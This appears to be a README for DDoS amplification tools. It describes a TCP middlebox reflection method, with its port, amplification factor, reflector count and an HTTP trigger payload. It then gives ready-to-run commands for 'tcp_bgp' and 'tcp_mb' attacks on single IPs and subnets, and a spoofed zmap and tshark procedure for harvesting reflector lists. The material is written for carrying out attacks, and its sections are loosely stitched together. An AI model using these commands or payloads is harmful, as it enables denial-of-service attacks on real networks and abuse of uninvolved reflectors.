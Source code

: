 # Middlebox

## Port: **80**

## Proto: **TCP**

## Amplification factor: **3x (200x for top 10k reflector)**

## Reflector count: ~90 milion (May, 2023)

---

### Payload

<pre>GET / HTTP/1.1\r\nHost: youporn.com\r\n\r\n</pre>

You can use any gambling, porn, torrent site instead youporn.com

### Response

<pre></pre>

### How does it work

- Some middleboxes do not perform handshake, allowing for reflection via spoofing.
- The attacker must be outside the censor, otherwise the packets will all be censored and lost.

Other links:

- https://github.com/breakerspace/weaponizing-censors
- https://geneva.cs.umd.edu/papers/usenix-weaponizing-ddos.pdf

## ---> [TCP BGP AMPLIFICATION]

This methods don't support random ports

The threading on this method is different, 12 should do around 250kpps

Example to attack single IP address

- ./tcp_bgp 1.1.1.1/32 80 bgp.txt 12 30 (single ip)

- Example to attack full subnet (cidr support)

- ./tcp_bgp 1.1.1.1/24 80 bgp.txt 12 30


This method needs to attack on random ports in order to work

- ./tcp_mb 1.1.1.1 middlebox.txt 1 -1 120

This needs a spoof server and another server

Replace <other-server-IP> with your other server IP and run this command on your spoof server

zmap -p 179 -o /dev/null -S <other-server-IP>

At same time, run this command on your other server

tshark -f 'ip[2:2] > 100 && src port 179 && tcp' > log.txt

Once the zmap is done you do CTRL + C to close tshark

Install Java if you already don't have installed

apt install default-jre -y

java -jar IPFilter.jar log.txt middlebox.txt
rm -rf log.txt